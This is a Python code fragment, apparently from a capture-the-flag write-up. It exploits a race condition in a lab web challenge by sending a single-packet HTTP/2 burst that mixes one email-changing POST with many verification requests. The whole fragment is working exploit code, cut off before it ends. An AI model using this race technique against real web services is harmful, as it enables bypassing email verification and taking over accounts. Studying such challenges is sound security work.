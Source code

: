 ```python
#print(response.text)
# change this host name to new generated one

Headers = { "Cookie" : cookie, "content-type": "application/x-www-form-urlencoded" }
data="email=test%40email.htb&username=estes&fullName=test&antiCSRFToken="+CSRF
urlReset="https://"+host+":"+str(puerto)+"/challenge/api/profile"
responseReset = requests.post(urlReset, data=data, headers=Headers, verify=False)

print(responseReset.status_code)

h2_conn = H2OnTlsConnection(
hostname=host,
port_number=puerto
)

h2_conn.setup_connection()

try_num = 100

stream_ids_list = h2_conn.generate_stream_ids(number_of_streams=try_num)

all_headers_frames = []  # all headers frame + data frames which have not the last byte
all_data_frames = []  # all data frames which contain the last byte


for i in range(0, try_num):
last_data_frame_with_last_byte=''
if i == try_num/2:
header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(  # noqa: E501
method='POST',
headers_string=headersObjetivo,
scheme='https',
stream_id=stream_ids_list[i],
authority=host,
body=bodyObjetivo,
path='/challenge/api/profile'
)
else:
header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(
method='GET',
headers_string=headersVerification,
scheme='https',
stream_id=stream_ids_list[i],
authority=host,
body=".",
path='/challenge/api/sendVerification'
)

all_headers_frames.append(header_frames_without_last_byte)
all_data_frames.append(last_data_frame_with_last_byte)


# concatenate all headers bytes
temp_headers_bytes = b''
for h in all_headers_frames:
temp_headers_bytes += bytes(h)

# concatenate all data frames which have last byte
temp_data_bytes = b''
for d in all_data_frames:
temp_data_bytes += bytes(d)
```